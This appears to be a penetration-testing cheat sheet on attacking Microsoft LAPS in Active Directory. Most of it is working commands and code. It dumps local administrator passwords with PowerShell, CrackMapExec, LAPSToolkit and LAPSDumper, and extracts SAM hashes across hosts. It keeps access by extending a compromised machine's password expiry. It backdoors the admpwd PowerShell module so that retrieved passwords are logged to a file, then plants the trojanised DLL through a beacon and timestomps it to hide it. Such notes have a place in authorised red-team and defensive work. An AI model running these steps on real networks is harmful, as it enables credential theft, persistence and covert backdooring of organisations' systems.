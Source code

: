 ```yaml
---
description: Local Administrator Password Solution
---
```


# LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```

Extract SAM with CME and compare admins' hashes:

```
$ for ip in `cat hosts.txt`; do cme smb $ip -u snovvcrash -p 'Passw0rd!' --sam 2>/dev/null | grep -v '(' | grep -ai admin; sleep 1; done
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py)

```
$ cme ldap <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```




## Persistence

Increase the expiration time of a compromised computer object's `ms-mcs-admpwdexpirationtime` property value:

```
PV3 > Get-DomainObject -Identity SRV01 -Properties ms-mcs-admpwdexpirationtime
PV3 > Set-DomainObject -Identity SRV01 -Set @{"ms-mcs-admpwdexpirationtime"="<EPOCH>"}
```




## Backdoor

Recompile [admpwd](https://github.com/GreyCorbel/admpwd) having added some evil code [here](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140):

```csharp
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

Replace the original `AdmPwd.PS.dll` assembly with a newly generated one and fix the timestamp:

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
beacon> upload AdmPwd.PS.dll
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
```
